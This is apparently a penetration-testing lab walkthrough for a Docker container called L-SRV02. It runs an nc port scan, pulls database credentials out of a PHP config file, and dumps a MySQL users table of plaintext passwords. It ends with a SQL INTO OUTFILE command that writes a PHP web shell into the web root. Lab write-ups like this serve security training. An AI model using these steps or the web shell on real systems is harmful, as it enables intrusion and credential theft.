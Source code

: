 # L-SRV02 Docker Container

We entered this docker container by exploiting RCE in [L-SRV01](../L-SRV01/L-SRV01.md) web server.

## Enumeration

Using netcat to portscan with `nc -zv 127.0.0.1 1-65535` we find that the following ports are open.

```
localhost [127.0.0.1] 3306 (mysql) open
localhost [127.0.0.1] 80 (http) open
```

In the container's default gateway (`192.168.100.1`) we find that the following ports are open.

```
ip-192-168-100-1.eu-west-1.compute.internal [192.168.100.1] 8080 (http-alt) open
ip-192-168-100-1.eu-west-1.compute.internal [192.168.100.1] 3306 (mysql) open
ip-192-168-100-1.eu-west-1.compute.internal [192.168.100.1] 80 (http) open
ip-192-168-100-1.eu-west-1.compute.internal [192.168.100.1] 22 (ssh) open
```

Checking the `/var/www/admin/db_connect.php` file, we find credentials.

```
<?php

define('DB_SRV', '192.168.100.1');
define('DB_PASSWD', "!123SecureAdminDashboard321!");
define('DB_USER', 'admin');
define('DB_NAME', 'DashboardDB');

$connection = mysqli_connect(DB_SRV, DB_USER, DB_PASSWD, DB_NAME);

if($connection == false){

        die("Error: Connection to Database could not be made." . mysqli_connect_error());
}
?>
```

Username: `admin`  
Password: `!123SecureAdminDashboard321!`

Using these credentials, we can access the database in `192.168.100.1` using the command `mysql -h 192.168.100.1 -u admin -p`.

We can enumerate databases.
```
mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| DashboardDB        |
| information_schema |
| mysql              |
| performance_schema |
| sys                |
+--------------------+
5 rows in set (0.00 sec)

mysql> use DashboardDB
Database changed
mysql> show tables;
+-----------------------+
| Tables_in_DashboardDB |
+-----------------------+
| users                 |
+-----------------------+
1 row in set (0.00 sec)

mysql> select * from users;
+----------+-----------------+
| username | password        |
+----------+-----------------+
| admin    | DBManagerLogin! |
| gurag    | AAAA            |
+----------+-----------------+
2 rows in set (0.00 sec)
```

Now we have more creds. 

Username: `gurag`  
Password: `AAAA`

We can exploit MySQL database to gain RCE using `select '<?php $cmd=$_GET["cmd"];system($cmd);?>' INTO OUTFILE '/var/www/html/shell.php';`.

